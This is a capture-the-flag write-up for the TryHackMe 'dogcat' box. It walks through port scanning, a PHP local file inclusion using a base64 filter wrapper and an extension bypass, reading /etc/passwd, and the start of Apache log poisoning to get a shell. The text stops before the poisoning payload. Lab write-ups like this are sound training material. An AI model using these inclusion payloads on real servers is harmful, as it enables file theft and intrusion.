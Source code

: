 # 'dogcat' box writeup
## dogcat is a CTF box created by jammy and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [LFI using wrappers](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter), [Log poisoning](https://liberty-shell.com/sec/2018/05/19/poisoning/)

# ![bg](images/background.png?raw=true "Title")

## Foothold
+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.23.37``

+ **We observe 2 open ports, ssh and an http, the last one with an Apache service**

# ![h](images/nmapp.jpg?raw=true "dog")

+ **Taking a look inside the web page, we can see a gallery made of dog and cats; pressing one of the buttons, an image shows up and we can observe the [view] parameter inside our URL**

# ![h](images/webpage.png?raw=true "dog")

**I've tried out some LFI from this position but with no success. So i changed the query string, adding some text inside**

# ![h](images/triedo2.jpg?raw=true "dog")

**It looks that the LFI vuln is present, but in a different form. The php script seems to include the page that we insert into the [view] parameter, openning a stream. But, the ``/etc/passwd`` that we inserted now has another extension: a ``.php``one. Also, the strings needs to contains another substring inside: ``cat``. If we're not using this string, we have no output from our request**


+ **Now, let's try a gobuster scan to see what php files we can find so maybe we can read them**

``gobuster dir -u http://10.10.23.37/ -w /usr/share/wordlists/dirb/common.txt -x php``

# ![h](images/gobusto.jpg?raw=true "dog")

+ **Now we know that there's index.php and flag.php files inside our directory. Now, reading some of the LFI techniques, we can spot a PHP wrapper way: we are going to try to use a base64 encoding type to convert the content of the php index file and finally to read it. We must keep in mind the fact that the ``cat`` substring need to be inside our main string. Let's apply the filter over our [view] parameter**

``http://10.10.23.37/?view=php://filter/convert.base64-encode/cat/resource=index``

# ![h](images/index.jpg?raw=true "dog")

+ **Here we have the content of index.php page, encoded with base64. Let's decode it and look into our page source code, where we can see some interesting php code**

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

+ **Let's understand this php code to see what's happening behind:** 
We have a **containsStr** function which returns the first occurence of a substring in a string; it's like the C **strstr** function.

Another thing it's that **$ext** variable which will be checked inside the URL parameter: if **$ext** exists, the URL file's extension will be used, else there will be set a *php* extension. We saw before that every string that we insert will end by having a *php* extension.

Then, the script checks if the view parameter is not NUL and checks if the query string contains the cat or dog substrings. If this happens, we get the inclusion and simultanously the extension is set with our **$ext**. 

So, we need to insert a **$ext** variable inside our view parameter, but without some value so we can read any file on the system

+ **We can read our first flag1 using the same wrapper, which outputs the flag php page now, encoded with the same base64**

``http://10.10.23.37/?view=php://filter/convert.base64-encode/cat/resource=flag``

+ **Let's move on and try to read the /etc/passwd file. I included the $ext value in the URL too**

``http://10.10.23.37/?view=php://filter/convert.base64-encode/cat/resource=../../../../etc/passwd&ext=``

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

# Log poison

+ **We can use LFI for path traversal and now we're moving on next step: log poison so we can access the system. Looking into the access.log file it seems like we are gonna use the User Agent poisoning**

``http://10.10.23.37/?view=cat/../../../../var/log/apache2/access.log&ext=``

# ![h](images/logpoison.jpg?raw=true "dog")

+ **In order to explain a little bit the log poison procedure, in the /var/log/apache2 folder, there's a file called access.log which keeps all the requests of the apache web-site. We are gonna modify the User-Agent parameter in our GET request with a system cmd so we can get a shell, the system will parse that log file and we will enter inside**
